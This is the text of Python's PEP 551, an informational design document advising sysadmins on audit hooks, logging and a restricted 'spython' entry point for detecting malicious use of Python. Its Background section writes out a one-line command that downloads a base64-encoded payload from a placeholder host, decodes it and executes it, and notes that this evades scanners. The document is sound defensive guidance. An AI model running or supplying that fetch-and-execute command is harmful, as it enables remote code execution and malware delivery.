 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Relationship to PEP 578
=======================

This PEP has been split into two since its original posting.

See `PEP 578 <https://www.python.org/dev/peps/pep-0578/>`_ for the
auditing APIs proposed for addition to the next version of Python.

This is now an informational PEP, providing guidance to those planning
to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in PEP-578 are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With PEP 578, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated through the
hooks added by PEP 578 include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. A discussion of what could be restricted
is below in `Restricting the Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation, such as
file permissions, access control lists and signature validation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize _detection_ of misuse over _prevention_ of
misuse.


Restricting the Entry Point
===========================

One of the primary vulnerabilities exposed by the presence of Python
on a machine is the ability to execute arbitrary code without
detection or verification by the system. This is made significantly
easier because the default entry point (``python.exe`` on Windows and
``pythonX.Y`` on other platforms) allows execution from the command
line, from standard input, and does not have any hooks enabled by
default.

Our recommendation is that production machines should use a modified
entry point instead of the default. Once outside of the development
environment, there is rarely a need for the flexibility offered by the
default entry point.

In this section, we describe a hypothetical ``spython`` entry point
(``spython.exe`` on Windows; ``spythonX.Y`` on other platforms) that
provides a level of security transparency recommended for production
machines. An associated example implementation shows many of the
features described here, though with a number of concessions for the
sake of avoiding platform-specific code. A sufficient implementation
will inherently require some integration with platform-specific
security features.

Official distributions will not include any ``spython`` by default, but
third party distributions may include appropriately modified entry
points that use the same name.

**Remove most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options to precede it. This
prevents arbitrary code execution from in-memory data or non-script
files (such as pickles, which could be executed using
``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

For the sake of demonstration, the example implementation of
``spython`` also allows the ``-i`` option to start in interactive mode.
This is not recommended for restricted entry points.

**Log audited events**

Before initialization, ``spython`` sets an audit hook that writes all
audited events to an OS-managed log file. On Windows, this is the Event
Tracing functionality,[7]_ and on other platforms they go to
syslog.[11]_ Logs are copied from the machine as frequently as possible
to prevent loss of information should an attacker attempt to clear
local logs or prevent legitimate access to the machine.

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

The logging hook is written in native code and configured before the
interpreter is initialized. This is the only opportunity to ensure that
no Python code executes without auditing, and that Python code cannot
prevent registration of the hook.

Our primary aim is to record all actions taken by all Python processes,
so that detection may be performed offline against logged events.
Having all events recorded also allows for deeper analysis and the use
of machine learning algorithms. These are useful for detecting
persistent attacks, where the attacker is intending to remain within
the protected machines for some period of time, as well as for later
analysis to determine the impact and exposure caused by a successful
attack.

The example implementation of ``spython`` writes to a log file on the
local machine, for the sake of demonstration. When started with ``-i``,
the example implementation writes all audit events to standard error
instead of the log file. The ``SPYTHONLOG`` environment variable can be
used to specify the log file location.

**Restrict importable modules**

Also before initialization, ``spython`` sets an open-for-import hook
that validates all files opened with ``os.open_for_import``. This
implementation requires all files to have a ``.py`` suffix (preventing
the use of cached bytecode), and will raise a custom audit event
``spython.open_for_import`` containing ``(filename, True_if_allowed)``.

After opening the file, the entire contents is read into memory in a
single buffer and the file is closed.

Compilation will later trigger a ``compile`` event, so there is no need
to validate the contents now using mechanisms that also apply to
dynamically generated code. However, if a whitelist of source files or
file hashes is available, then other validation mechanisms such as
DeviceGuard [4]_ should be performed here.



**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

**Prevent os.system**

The ``spython`` entry point aborts all ``os.system`` calls.

It should be noted here that ``subprocess.Popen(shell=True)`` is
allowed (though logged via the platform-specific process creation
events). This tradeoff is made because it is much simpler to induce a
running application to call ``os.system`` with a single string argument
than a function with multiple arguments, and so it is more likely to be
used as part of an exploit. There is also little justification for
using ``os.system`` in production code, while ``subprocess.Popen`` has
a large number of legitimate uses. Though logs indicating the use of
the ``shell=True`` argument should be more carefully scrutinised.

Sysadmins are encouraged to make these kinds of tradeoffs between
restriction and detection, and generally should prefer detection.

General Recommendations
=======================

Recommendations beyond those suggested in the previous section are
difficult, as the ideal configuration for any environment depends on
the sysadmin's ability to manage, monitor, and respond to activity on
their own network. Nonetheless, here we attempt to provide some context
and guidance for integrating Python into a complete system.

This section provides recommendations using the terms **should** (or
**should not**), indicating that we consider it risky to ignore the
advice, and **may**, indicating that for the advice ought to be
considered for high value systems. The term **sysadmin** refers to
whoever is responsible for deploying Python throughout the network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

Things not to do
================

This section discusses common or "obviously good" recommendations that
we are specifically *not* making. These range from useless or incorrect
through to ideas that are simply not feasible in any real world
environment.

**Do not** attempt to implement a sandbox within the Python runtime.
There is a long history of attempts to allow arbitrary code limited use
of Python features (such as [14]_), but no general success. The best
options are to run unrestricted Python within a sandboxed environment
with at least hypervisor-level isolation, or to prevent unauthorised
code from starting at all.

**Do not** rely on static analysis to verify untrusted code before use.
The best options are to pre-authorise trusted code, such as with code
signing, and if not possible to identify known-bad code, such as with
an anti-malware scanner.

**Do not** use audit hooks to abort operations without logging the
event first. You will regret not knowing why your process disappeared.

[TODO - more bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] Antimalware Scan Interface, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

.. [14] The failure of pysandbox `<https://lwn.net/Articles/574215/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
